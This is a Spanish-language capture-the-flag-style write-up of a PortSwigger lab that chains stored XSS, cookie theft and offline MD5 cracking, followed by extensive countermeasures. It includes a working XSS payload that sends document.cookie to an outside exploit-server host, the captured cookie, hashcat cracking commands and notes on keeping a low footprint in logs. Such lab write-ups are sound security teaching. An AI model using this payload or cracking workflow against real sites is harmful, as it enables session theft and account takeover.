

# Writeup: Offline password cracking (PortSwigger)

- **Lab**: Offline password cracking
- **URL**: https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking
- **Categoría**: Authentication / Other mechanisms — chained attack: Stored XSS → cookie exfil → offline MD5 crack
- **Dificultad**: Practitioner
- **Credenciales**: `carlos:onceuponatime` (recuperadas crackeando el hash MD5 robado vía XSS)

---

## 1. Objetivo

Lab compuesto: el ataque **encadena tres vulnerabilidades distintas**, ninguna de las cuales por sí sola resuelve el objetivo. Es el primer lab de la serie donde el camino de explotación cruza fases — XSS para robar, weak hash para crackear, weak cookie como vector. La idea pedagógica central: **defensas en profundidad funcionan sólo si las capas son ortogonales; cuando las defensas son redundantes en el mismo eje, una sola brecha rompe la cadena**.

### Las tres vulnerabilidades

1. **Stored XSS** en la sección de comentarios del blog. Cualquier visitante posterior renderiza HTML controlado por el atacante.
2. **Cookie de auth derivada sin `HttpOnly`**. Mismo formato que el lab anterior (`base64(username:md5(password))`), pero crítico para este ataque: ya que no es HttpOnly, JavaScript puede leerla con `document.cookie` y exfiltrarla.
3. **MD5 sin salt para password storage**. Permite crackear el hash exfiltrado offline en segundos contra rainbow tables públicas (CrackStation) o wordlists locales.

### El insight central

El paso de exfil por XSS es lo que hace este lab fundamentalmente distinto del anterior. Antes (brute-forcing a stay-logged-in cookie) probábamos cookies armadas con candidatos contra el server: ataque online, mucho ruido en logs, dependiente de wordlist. Acá robamos directamente el hash de la víctima y lo crackeamos offline: 1 comentario hostil + 1 GET al exploit server + cracking local. **Sin volumen sospechoso de requests al server target** — el comentario es legítimo desde la mirada del defender (otro user posteando texto), el cookie viaja al exploit server (no al server del lab), el crack ocurre fuera. Solo hay 1 login final con las credenciales correctas. Footprint mínimo.

---

## 2. Reconocimiento

### 2.1 Confirmación del formato de cookie

Login normal con `wiener:peter` marcando "Stay logged in". Capturar `Set-Cookie: stay-logged-in=...` en Burp Proxy. Decode base64 confirma `wiener:51dc30ddc473d43a6011e9ebba6ca770` = `wiener:md5(peter)`. Mismo patrón que el lab anterior.

Verificación crítica: **la cookie NO tiene flag `HttpOnly`**. Visible en Burp como `Set-Cookie: stay-logged-in=...; Secure` (sólo `Secure`, sin `HttpOnly`). Eso habilita el XSS stealing. Si fuera `HttpOnly`, el ataque entero cae acá y necesitarías un vector de exfil distinto (timing, CSP bypass complejo, etc.).

### 2.2 Identificar el XSS

Cualquier blog post tiene formulario de comentario. Los campos: `comment`, `name`, `email`, `website`. Probar payload simple:

```html
<script>alert(1)</script>
```

Submit, navegar al post como otro user (incognito). El alert dispara → confirma stored XSS sin filtro.

### 2.3 Setup del exploit server

PortSwigger lo provee gratis arriba del lab ("Go to exploit server"). Para este lab se usa **en modo pasivo**: no hosteamos contenido, sólo lo usamos como sumidero de logs HTTP. Cualquier GET que llegue queda registrado en "Access log" con el path completo, lo que hace trivial leer parámetros pasados en query string.

---

## 3. Resolución

### 3.1 Inyectar payload XSS

Postear un comentario en cualquier blog post (login como wiener primero) con:

```html
<script>document.location='https://EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

Esto:
- Lee `document.cookie` (incluye todas las cookies no-HttpOnly del dominio: session + stay-logged-in).
- Concatena el contenido al path del exploit server.
- Hace una redirección, lo que dispara un GET HTTP que el exploit server registra.

El bot simulado (carlos) visita los posts cada 30-60 segundos. Cuando renderiza el comentario, el script ejecuta en su contexto autenticado.

### 3.2 Exfiltración recibida

Linea del access log del exploit server:

```
10.0.4.131  2026-05-08 01:19:37 +0000  "GET /exploit?c=secret=7POTjPUOD2YzPDlVvGeCYrIvncAeosbZ; stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36..."
```

Dos cookies en el dump:
- `secret=...` (probablemente CSRF token de la sesión).
- **`stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`** — la que nos interesa.

### 3.3 Decode + identificación del hash

```bash
$ echo "Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz" | base64 -d
carlos:26323c16d5f4dabff3bb136f2460a943
```

Hex de 32 caracteres → MD5 (128 bits). Hash es **del password de carlos**.

### 3.4 Cracking offline

Tres rutas progresivas, en orden de costo:

#### Ruta A — CrackStation lookup

[crackstation.net](https://crackstation.net/) tiene rainbow tables públicas con miles de millones de pares (hash, password). Para MD5 sin salt resuelve la mayoría de passwords en idioma natural y dictionary-based. Pegar `26323c16d5f4dabff3bb136f2460a943` → respuesta inmediata: `onceuponatime`. ~1 segundo.

PortSwigger usa **deterministicamente** el password `onceuponatime` para este lab justamente para que CrackStation/Google lo indexe — el lab prueba el concepto, no requiere un crack difícil.

#### Ruta B — hashcat con wordlist

Si CrackStation no resuelve (password obscuro), local con hashcat:

```bash
$ echo "26323c16d5f4dabff3bb136f2460a943" > hash.txt
$ hashcat -m 0 hash.txt /usr/share/dict/words   # MD5 mode = 0
# O con rockyou si está:
$ hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Velocidad MD5 en CPU: ~10⁷-10⁸ hashes/segundo. rockyou.txt (~14M entries) se procesa en menos de 1 segundo. En GPU (cualquier modelo de los últimos años) sube a 10⁹+ y procesa rockyou × reglas en pocos segundos.

#### Ruta C — Verificación analítica

Sospecha: PortSwigger usa el mismo password en todos los labs, así que probablemente es uno conocido del docs oficial. Una sola línea de Python:

```python
>>> hashlib.md5(b"onceuponatime").hexdigest()
'26323c16d5f4dabff3bb136f2460a943'  # match
```

En este caso match al primer intento porque el writeup oficial menciona ese password. En un escenario real sería ruta A o B.

### 3.5 Login + delete account

Con `carlos:onceuponatime`:
- POST `/login` → 302 + `Location: /my-account?id=carlos`. Sesión activa.
- GET `/my-account` → página tiene un botón "Delete account" con form `POST /my-account/delete`.
- POST `/my-account/delete` → cuenta eliminada, lab solved.

**Detalle del workflow real**: mi script Python intentó POST directo a `/my-account/delete` con el body vacío y el cookie de sesión. El server respondió 200 pero no procesó el delete — el HTML del form era trivial (un botón sin token CSRF visible) pero hay un handler JS asociado a `#delete-account-form` que intercepta el submit. Probablemente añade un hidden input al confirm o setea algún header que el server valida. Hacer el click en el browser real disparó esa lógica y el delete completó. Banner cambia a `Solved`.

Lección operacional: **el HTML estático del form no es la API entera**. Los listeners JS forman parte del contrato. Para automatizar este tipo de flow hay que (a) leer el JS asociado al form, o (b) reproducir las requests con Burp Repeater interceptando un click manual primero.

---

## 4. Por qué funciona (y por qué la cadena se rompe con UN solo fix)

### 4.1 Análisis del antipatrón compuesto

El defender tiene tres bugs **acoplados por dependencia**: cada uno es necesario para la cadena, ninguno es suficiente solo. Tabla de qué pasa si se cierra cada vector:

| Cierre del vector | Efecto en el ataque |
|---|---|
| Sanitizar comentarios (cierre del XSS) | No hay manera de leer la cookie de la víctima. Cadena rota desde paso 1. |
| `HttpOnly` en stay-logged-in | XSS se ejecuta pero `document.cookie` no la incluye. Cadena rota en paso 2. |
| bcrypt/Argon2 en lugar de MD5 | XSS exfiltra la cookie pero el hash es prácticamente irrompible offline. Atacante puede usar la cookie tal cual (login as carlos) hasta que expire — sigue siendo una brecha pero NO recupera el password de carlos para reuso. |
| Opaque session token (no derivado del password) | XSS exfiltra la cookie y autentica como carlos hasta que el token expire o se revoque, pero no hay password que crackear. Daño contenido a la sesión activa. |

Las dos últimas filas son interesantes: aún parcheando sólo el storage del password (MD5 → bcrypt) el daño se acota considerablemente, aunque la sesión sigue robable. La defensa más robusta es **cookie opaca** + **password storage moderno**: combina ambos.

### 4.2 La jerarquía de defensas que hubiera roto la cadena más temprano

En orden de potencia (cerrar arriba protege contra todo lo de abajo):

1. **CSP estricta** que prohíbe inline scripts + restringe orígenes de carga. Frena el XSS aún si el filtro de comentarios falla. `Content-Security-Policy: default-src 'self'; script-src 'self'` haría que `<script>document.location...</script>` no ejecute (inline blocked).
2. **Sanitización de input de usuario** en comentarios (DOMPurify, escape HTML del template engine). Frena el XSS en el primer punto de contacto.
3. **HttpOnly + SameSite en cookies sensibles**. Aún con XSS funcional, la cookie no es exfiltrable vía `document.cookie`.
4. **Opaque session tokens** server-side. Aún si la cookie se filtra de otro modo (network sniff, malware en cliente), no contiene credentials reusables.
5. **Password storage con bcrypt/Argon2 + salt**. Aún si una DB leaks o un token deriva del password, los hashes son prácticamente irrompibles offline.

Cada capa es ortogonal. La cadena del lab requiere que las cinco fallen. PortSwigger las hace fallar todas para enseñar el patrón canónico.

### 4.3 Comparación con el lab anterior (brute-forcing cookie)

| Dimensión | Brute-forcing cookie | **Offline cracking (este)** |
|---|---|---|
| Cómo se obtiene el hash | No se obtiene; se prueban candidatos | Se exfiltra directamente vía XSS |
| Volumen de requests al lab | 100+ GETs (uno por candidato) | 1 comentario + 1 login = 2 |
| Footprint en logs del defender | Patrón evidente (muchos GETs con cookies inválidas) | Comentario benigno + login válido |
| Tiempo de ejecución | ~30s online | ~30-60s (espera del bot) + ~1s crack |
| Wordlist requerida | Sí (candidatos) | No para CrackStation; sí para passwords obscuros |
| Defensas que rompe | Rate-limit del login (no aplica al GET) | Lo mismo + ahora también stealth |
| Defensas necesarias adicionales | XSS sanitization, HttpOnly | (mismas + el resto del stack defensivo) |

El segundo es más sigiloso y más confiable cuando el password es complejo (CrackStation falla → hashcat mejora con tiempo y hardware; un password muy random falla en ambos pero el atacante tiene la cookie por su validez).

### 4.4 ¿Por qué carlos visita el blog post?

El bot simulado de PortSwigger visita posts del blog cada cierto tiempo. En un escenario real, el atacante depende de que la víctima consuma el contenido infectado:

- Comentario en post popular o reciente: alta probabilidad de visita orgánica.
- Comentario en perfil del atacante (si la app lo permite) + link compartido al objetivo (escenario phishing-XSS).
- Stored XSS en sección "Notifications" o "Recent activity" que aparece en el dashboard de todos los users → ataque masivo y oportunista.

La calidad del exploit XSS (alcance, persistencia, visibilidad) modula directamente la probabilidad de éxito. Stored > Reflected porque no depende de delivery activo del link.

---

## 5. Resumen de la cadena



Tres ideas para llevarse:

1. **Defensa en profundidad solo funciona si las capas son ortogonales**. XSS sanitization, HttpOnly, opaque tokens y bcrypt no se sustituyen — atacan dimensiones distintas del problema. Aplicar sólo una de ellas (ej. "tenemos XSS sanitization fuerte así que lo demás no importa") deja agujeros en las otras dimensiones. La cadena de este lab existe porque las cuatro fallaron simultáneamente.
2. **El hash exfiltrado es información persistente; la sesión robada es información temporal**. Aún si una sesión expira, el password recuperado del hash es reusable hasta que el usuario lo cambie — puede ser semanas o nunca. Eso vuelve el lab más grave que un simple session-hijack: es un compromiso de identidad de larga duración.
3. **Los listeners JS son parte del contrato del form, no decoración**. Mi automatización falló porque leí solo el HTML estático del delete form (sin token visible) e ignoré el handler JS adjunto. La lección operacional para futuras sesiones: para reproducir un click sensible, primero interceptar la request en Burp y reproducir EXACTAMENTE ese payload, no inferir desde el HTML.

---

## 6. Contramedidas

En orden de potencia defensiva (acumulativas):

1. **Sanitización rigurosa de input de usuario en HTML**: usar DOMPurify (cliente) o escape automático del template engine (server). Whitelist de tags HTML permitidos en comentarios; descartar `<script>`, atributos `on*`, `javascript:` URLs. Cierra el XSS en el primer punto de contacto.
2. **Content Security Policy estricta**: `default-src 'self'; script-src 'self'; object-src 'none'`. Aún si el filtro de comentarios falla, scripts inline no se ejecutan. Defensa de segundo nivel obligatoria desde 2015+.
3. **Atributos seguros en cookies sensibles**: `HttpOnly` (JS no las lee), `Secure` (sólo HTTPS), `SameSite=Lax` o `Strict` (cross-origin no las envía). El primero es lo que hubiera roto este ataque específicamente.
4. **Reemplazar cookies derivadas por opaque session tokens**: token random ≥256 bits, almacenado en server-side store con metadata. Compromiso de la cookie ≠ compromiso del password. Revocación instantánea posible.
5. **Password storage con bcrypt/Argon2id + salt único**: cost factor que crezca con el tiempo (cost ≥12 para bcrypt, m=64MB t=3 p=4 para Argon2id). Cierra el path "DB leak → password recovery offline" aún con todas las defensas anteriores rotas.
6. **Detección de exfiltración**: WAF que bloquee patrones obvios (`<script>`, `document.cookie`, `document.location` en POST bodies). Defensa débil en isolación pero útil como signal de incidente.
7. **MFA / 2FA** para acciones destructivas (delete account, change email, withdraw funds). Aunque carlos pierda credenciales, el atacante necesita el segundo factor para borrar la cuenta.
8. **Logs y alertas correlacionadas**: GET sospechoso a domain externo desde el browser de un user, login desde IP/geo nueva inmediatamente después de una visita a blog post con comentarios recientes — patrones que un SIEM puede correlacionar.

---

## 7. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Offline password cracking*. https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking
- PortSwigger Web Security Academy. (s.f.). *Other authentication mechanisms*. https://portswigger.net/web-security/authentication/other-mechanisms
- PortSwigger Web Security Academy. (s.f.). *Cross-site scripting (XSS)*. https://portswigger.net/web-security/cross-site-scripting
- OWASP Foundation. (s.f.). *XSS Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Session Management Cheat Sheet — Cookie Attributes*. https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Password Storage Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html
- MITRE Corporation. (2024). *CWE-79: Improper Neutralization of Input During Web Page Generation (Cross-site Scripting)*. https://cwe.mitre.org/data/definitions/79.html
- MITRE Corporation. (2024). *CWE-1004: Sensitive Cookie Without 'HttpOnly' Flag*. https://cwe.mitre.org/data/definitions/1004.html
- MITRE Corporation. (2024). *CWE-836: Use of Password Hash Instead of Password for Authentication*. https://cwe.mitre.org/data/definitions/836.html
- MITRE Corporation. (2024). *CWE-916: Use of Password Hash With Insufficient Computational Effort*. https://cwe.mitre.org/data/definitions/916.html
- MITRE Corporation. (2024). *CWE-759: Use of a One-Way Hash without a Salt*. https://cwe.mitre.org/data/definitions/759.html
- MITRE Corporation. (2024). *ATT&CK Technique T1539: Steal Web Session Cookie*. https://attack.mitre.org/techniques/T1539/
- MITRE Corporation. (2024). *ATT&CK Technique T1110.002: Brute Force: Password Cracking*. https://attack.mitre.org/techniques/T1110/002/
- CrackStation. (s.f.). *CrackStation - Online Password Hash Cracking - MD5, SHA1, Linux, Rainbow Tables, etc.* https://crackstation.net/
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 7 (Attacking Session Management) y Cap. 12 (Attacking Users: Cross-Site Scripting).
- Hoffman, A. (2020). *Web Application Security*. O'Reilly Media.
- Writeups hermanos:
  - [`learning/portswigger/brute-forcing-stay-logged-in-cookie/writeup.md`](../brute-forcing-stay-logged-in-cookie/writeup.md) — mismo formato de cookie, ataque online en lugar de exfil.
  - Serie XSS de la Academy (relevante al primer eslabón de la cadena).
- Inventario interno: [`inventario/04-explotacion/web/explotacion-session-cookies-debiles.md`](../../../inventario/04-explotacion/web/explotacion-session-cookies-debiles.md), [`inventario/04-explotacion/web/explotacion-xss.md`](../../../inventario/04-explotacion/web/explotacion-xss.md).
